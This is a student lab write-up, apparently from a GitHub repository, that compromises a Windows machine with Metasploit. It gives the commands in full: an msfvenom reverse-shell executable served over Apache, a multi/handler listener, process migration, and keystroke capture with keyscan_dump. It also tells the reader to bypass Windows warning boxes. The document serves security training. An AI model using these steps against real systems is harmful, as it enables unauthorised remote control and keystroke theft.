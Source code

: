 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### NAME:SANJAY ASHWIN P
### REG NO:212223040181
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 31 18_5f9d2595](https://github.com/user-attachments/assets/a10d10df-1055-4c9e-b4e8-2cff6b62fdd7)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 43 49_799464eb](https://github.com/user-attachments/assets/b9dc914f-6c12-434d-a4ab-9263af9ef852)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 47 07_c6e7043b](https://github.com/user-attachments/assets/562aa67f-8d76-41f0-8add-8fb8cc2cf68a)


Start apache server
sudo systemctl apache2 start
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 49 53_b962cf8d](https://github.com/user-attachments/assets/4dd21c44-bf67-47b4-a8f2-90699d018eeb)

Check the status of apache2
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 50 49_8e5f64c2](https://github.com/user-attachments/assets/49764b81-d94c-4ea1-abc4-8c91bb8bb906)

Invoke msfconsole:
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 56 44_14e8711a](https://github.com/user-attachments/assets/2207bcbb-ee1e-4c2a-a4d9-8f44fd5d48be)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![WhatsApp Image 2024-11-01 at 17 57 24_7438089c](https://github.com/user-attachments/assets/35e68da2-d561-49ec-9f6f-ca9ea8a49997)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![WhatsApp Image 2024-11-01 at 18 01 15_ea1edaed](https://github.com/user-attachments/assets/cdb145a9-a1d0-4f24-8605-5e76d7689d44)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/1de09061-e779-4139-b93c-7a990bb402a8)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/a517238b-a224-40d6-93ca-f2efed2c75b2)

On kali give the command exploit

![WhatsApp Image 2024-11-01 at 18 12 04_448ad010](https://github.com/user-attachments/assets/01044599-fd74-433d-ba7a-a96a45e2b164)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![WhatsApp Image 2024-11-01 at 18 12 46_ee3b1ab9](https://github.com/user-attachments/assets/0362e76b-955b-46e4-a561-584b86e29192)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/user-attachments/assets/4341677e-a58c-483f-af17-c58e6b61c58b)


Post Exploitation
keyscan_dump	Shows the keystrokes captured so far

![WhatsApp Image 2024-11-01 at 18 15 09_3e278d2d](https://github.com/user-attachments/assets/5ba20273-6a12-499d-8338-c0b183df5d62)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
